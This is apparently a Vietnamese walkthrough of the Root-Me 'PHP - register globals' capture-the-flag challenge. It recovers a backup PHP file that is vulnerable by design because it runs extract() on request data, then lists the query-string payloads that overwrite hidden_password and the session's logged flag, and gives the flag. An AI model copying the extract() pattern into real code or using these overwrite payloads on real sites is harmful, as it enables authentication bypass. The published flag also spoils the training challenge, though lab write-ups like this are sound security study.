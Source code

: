 # [PHP - register globals](https://www.root-me.org/en/Challenges/Web-Server/PHP-register-globals)

## Solutions

- Sử dụng dirsearch, tìm thấy được 2 file:
  - 200 -    0B  - /web-serveur/ch17/config.inc.php
  - 200 -    1KB - /web-serveur/ch17/index.php.bak

- Trong đó truy cập đến file config.inc.php thì không thấy gì còn file index.php.bak ta lấy được source code php:

```php
<?php


function auth($password, $hidden_password){
    $res=0;
    if (isset($password) && $password!=""){
        if ( $password == $hidden_password ){
            $res=1;
        }
    }
    $_SESSION["logged"]=$res;
    return $res;
}



function display($res){
    $aff= '
          <html>
          <head>
          </head>
          <body>
            <h1>Authentication v 0.05</h1>
            <form action="" method="POST">
              Password&nbsp;<br/>
              <input type="password" name="password" /><br/><br/>
              <br/><br/>
              <input type="submit" value="connect" /><br/><br/>
            </form>
            <h3>'.htmlentities($res).'</h3>
          </body>
          </html>';
    return $aff;
}

session_start();
if ( ! isset($_SESSION["logged"]) )
    $_SESSION["logged"]=0;

$aff="";
include("config.inc.php");

if (isset($_POST["password"]))
    $password = $_POST["password"];

if (!ini_get('register_globals')) {
    $superglobals = array($_SERVER, $_ENV,$_FILES, $_COOKIE, $_POST, $_GET);
    if (isset($_SESSION)) {
        array_unshift($superglobals, $_SESSION);
    }
    foreach ($superglobals as $superglobal) {
        extract($superglobal, 0 );
    }
}

if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || (is_array($_SESSION) && $_SESSION["logged"]==1 ) ){
    $aff=display("well done, you can validate with the password : $hidden_password");
} else {
    $aff=display("try again");
}

echo $aff;

?>
```

- Thử gửi request đến index.php:
  - `index.php?password=3&hidden_password=3`: pass được qua hàm kiểm tra mật khẩu nhưng biến $hidden_password đã bị ghi đè thành 3
  - `index.php?logged=1`: lấy được flag `NoTQYipcRKkgrqG`

## References

- <https://repository.root-me.org/Programmation/PHP/EN%20-%20Using%20register%20globals%20in%20PHP.pdf>

